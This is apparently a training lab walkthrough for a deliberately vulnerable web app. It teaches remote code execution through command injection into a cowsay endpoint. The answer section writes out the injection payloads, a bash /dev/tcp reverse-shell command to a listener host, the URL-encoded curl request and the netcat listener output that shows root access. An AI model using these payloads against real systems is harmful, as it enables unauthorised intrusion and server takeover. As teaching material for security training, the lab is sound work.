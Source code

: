 # RCE - Remote Code Execution & Obtaining a Reverse Shell

A remote code injection (RCE) vulnerability is the most deadly type of vulnerability since it gives an attacker command and control in some regard or another of a host server.

When you find an RCE, you can use it to execute commands as the user that owns the process you have compromised. For example, if you run a tomcat webserver as the user `tomcat` and that process is exploited by an RCE, you can do anything that `tomcat` user can do. This is the reason it is always recommended to run webservers as non-privileged users that don't have access to more than they need.

Once you have the ability to execute arbitrary commands on a host, you can do lots of nasty things such as listing the contents of sensitive files, updating HTML code and defacing websites, etc. However, to embed yourself further in the system, you'll want to obtain an actual shell on the host you've compromised. This allows you execute multiple commands on the host just like if you had a remote SSH or Telnet session on the host.

The way to do this is to establish a reverse shell. The reason it's called reverse is that instead of connecting your session to the victim, you setup a listener on a remote box that you own, and bind to that from the victim host. The reason should be fairly self-explanitory, that setting up a listener on a box you don't own requires elevated privilege and also most hosts block unused ports via firewall rules. However, most hosts actually need to gain access to the web to download packages, etc so egress is typically allowed by firewalls, especially on ports 80 and 443 (HTTP and HTTPS respectively).

The details of how these reverse shells include a bit of understanding of file redirection in unix or use of socket-level programming in different scripting languages, so I'll leave this link here for you to read through. For this exercise, we'll just use copy/paste to help us out. https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

![](assets/reverse_shell.png)

# Lab

We have a vulnerable endpoint that uses a Linux command line utility. Let's try to execute this fun little endpoint that executes the `cowsay` program on Linux normally:

```
$ curl 'http://localhost:8081/cowsay?input=I+Love+Linux!'
 _______________
< I Love Linux! >
 ---------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

```

Try to exploit this command using what we've learned so far from the SQL injection exercise about escaping

<details>
  <summary>Answer</summary>

  This executes the `cowsay` program on our host linux box, but as you can see, it allows user input. This is a sign that it might have a RCE type vulnerability if input is not validated. Let's try with a few inputs to see what we have control over.

  Let's assume that the executable looks something like `cowsay 'input'`. There wouldn't have to be a single quote there, but it's a reasonable initial assumption. We'll have to escape using the same method we used for the SQL injection. So let's see what we can execute the `ls` command to list the directory contents.

  The way you'd escape would be something like this where the `';` gets you out of the expected command and then you execute your own command. Then the `#` comment character ignores the rest of the command just like in the SQL injection:

  ```
  cowsay 'input'; ls #
  ```
  But there's some characters that probably won't work in a URL parameter. This is where we'll try to encode our command string with a URL encoder. We'll use https://www.urlencoder.org/ for this. If you copy the above line and encode it you can add it to the URL parameter like so and then execute the curl request to see what you get:

  ```
  $ curl "http://localhost:8081/cowsay?input=input%27%3B%20ls%20%23"
   _______
  < input >
   -------
          \   ^__^
           \  (oo)\_______
              (__)\       )\/\
                  ||----w |
                  ||     ||
  Dockerfile
  README.md
  bin
  boot
  dev
  docker-compose.yml
  docker-java-home
  etc
  exercises
  home
  internal_site
  ...
  ```

  _insert evil laugh here_

  So now we've confirmed our suspicions that we have the ability to execute arbitrary commands from this endpoint. Now we can solidify our hold on the box using a Reverse Shell. First we'll need to actually create our listener using `Terraform`. Go ahead and [download Terraform](https://www.terraform.io/downloads.html) and navigate to the [`reverse_shell`](../reverse_shell/README.md) directory in this project and follow the instructions to spin up your listener on port 443.

  ```
  thing'; bash -i >& /dev/tcp/LISTENER_IP/443 0>&1 #
  ```

  This gets parsed as:
  ```
  /usr/games/cowsay 'thing'; bash -i >& /dev/tcp/LISTENER_IP/443 0>&1 #'
  ```

  Now let's get the IP from our listener, URL encode our payload and execute this against the web server.

  ```
  # Get the IP from the AWS host you just created
  export LISTENER_IP=$(aws --region us-west-2 ec2 describe-instances --filters  "Name=tag:Name,Values=VulnadoReverseShellReceiver" | jq -r '.Reservations[0].Instances[0]|.PublicIpAddress')

  # Use the URL encoded payload from above to execute a reverse shell.
  curl "http://localhost:8081/cowsay?input=thing%27%3B%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F${LISTENER_IP}%2F443%200%3E%261%20%23"
  ```

  If you look back at your terminal running the listener, you should now see a prompt that looks something like:

  ```
  [ec2-user@ip-10-42-0-83 ~]$ sudo nc -l -p 443
  bash: cannot set terminal process group (1): Inappropriate ioctl for device
  bash: no job control in this shell
  root@6e99769a0f82:/#
  ```

  Congratulations, you now have a _mostly_ functioning bash shell into the compromised web server. At this point you can do lots of nasty things such as listing environment variables with `env` or downloading new packages because, as your prompt tells you, you now have root control.

  Now that you have a remote shell try finding the secret value in the root directory!

  **Followup question:** How would we validate the url that is being passed into this function?

</details>
